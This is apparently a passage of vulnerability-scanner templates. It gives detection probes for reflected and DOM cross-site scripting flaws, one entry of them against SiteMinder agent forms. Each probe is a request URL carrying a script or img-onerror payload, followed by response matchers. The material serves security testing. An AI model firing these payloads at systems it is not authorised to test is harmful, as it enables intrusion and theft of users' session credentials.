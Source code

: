 ### URL

- {{BaseURL}}/steve/services/"%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/services/
- {{BaseURL}}/services/"%3E%3Cscript%3Ealert(document.domain)%3C/script%3E/services/

### Matchers

**Type - word**

- part - body
- words
  1. \<script>alert(document.domain)\</script>/services/?stylesheet=1">

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# SiteMinder - DOM Cross-Site Scripting

## Description

- SiteMinder contains a cross-site scripting vulnerability in the document object model. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - dom,xss,siteminder

## Requests

- Method - GET

### URL

- {{BaseURL}}/siteminderagent/forms/smpwservices.fcc?USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7
- {{BaseURL}}/siteminderagent/forms/smaceauth.fcc?USERNAME=\u003cimg\u0020src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7

### Matchers

**Type - word**

- words
  1. \u003d\u0022confirm(document.domain)\u0022\u003e\</B> you cannot access your
